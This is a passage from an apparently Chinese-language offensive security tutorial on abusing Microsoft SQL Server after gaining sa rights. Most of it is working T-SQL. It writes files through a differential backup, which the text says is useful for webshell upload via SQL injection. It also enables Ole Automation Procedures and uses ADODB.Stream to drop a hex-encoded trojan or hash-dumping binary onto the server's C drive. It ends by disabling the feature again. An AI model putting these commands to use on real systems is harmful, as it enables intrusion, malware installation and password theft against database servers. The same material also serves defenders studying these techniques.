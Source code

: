 第四步：差异备份：

```php
1.  backup database vulntest to disk='c:\\vuln.txt' WITH DIFFERENTIAL,FORMAT;  
```

以上命令可以合在一起执行，也可以单独执行，成功执行之后，会在 c 盘下生成两个文件，一个是备份的 ddd.bak，一个是 vuln.txt，看看 vuln.txt 中是否包含关键词 VulnTest:

![3-2.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-6f79534042b7723c3f190ef07e6dfc6d654299cd.png)

这种对于利用 sql 注入上传 webshell 是比较有用的。

### 2.3.2 场景二：上传二进制文件到数据库服务器

当我们获得一个数据库服务器的 sa 权限之后，需要将我们的木马文件或者抓 hash 文件传入服务器，然后执行该程序来获得一个通道或者抓取当前用户的密码信息，这个时候，就需要用到利用 MSSQL 数据库上传二进制文件的功能。

第一步，启用 Ole Automation Procedures：

```php
1.  \-- Step 1: Enable Ole Automation Procedures  
2.  sp\_configure 'show advanced options', 1;  
3.  RECONFIGURE;  
4.  sp\_configure 'Ole Automation Procedures', 1;  
5.  RECONFIGURE;  
```

第二步将 test 写入到 c 盘的 info.txt 中：

```php
1.  \-- Step 2: Write Text File  
2.  DECLARE @OLE **INT**  
3.  DECLARE @FileID **INT**  
4.  EXECUTE sp\_OACreate 'Scripting.FileSystemObject', @OLE OUT  
5.  EXECUTE sp\_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\\info.txt', 8, 1  
6.  EXECUTE sp\_OAMethod @FileID, 'WriteLine', Null, 'test'  
7.  EXECUTE sp\_OADestroy @FileID  
8.  EXECUTE sp\_OADestroy @OLE  
```

在目标服务器 c 盘下可以看到最新写入的文件，如果想要写入二进制文件呢？首先将二进制文件，转为 mssql 支持的 hex 字符串，执行上面提供的脚本即可，然后替换下面的 0xhex, 执行下面的语句：

```php
1.  DECLARE @ObjectToken **INT**  
2.  EXEC sp\_OACreate 'ADODB.Stream', @ObjectToken OUTPUT  
3.  EXEC sp\_OASetProperty @ObjectToken, 'Type', 1  
4.  EXEC sp\_OAMethod @ObjectToken, 'Open'  
5.  EXEC sp\_OAMethod @ObjectToken, 'Write', NULL, 0xhex  
6.  EXEC sp\_OAMethod @ObjectToken, 'SaveToFile', NULL, 'c:\\Test.exe', 2  
7.  EXEC sp\_OAMethod @ObjectToken, 'Close'  
8.  EXEC sp\_OADestroy @ObjectToken  
```

执行成功后，在服务器的 c 盘下，然后就可以执行该工具。使用完之后，可以将之前开启的功能恢复，命令：

```php
1.  \-- Step 3: Disable Ole Automation Procedures  
2.  sp\_configure 'show advanced options', 1;  
3.  RECONFIGURE;  
4.  sp\_configure 'Ole Automation Procedures', 0;  
5.  RECONFIGURE;  
```
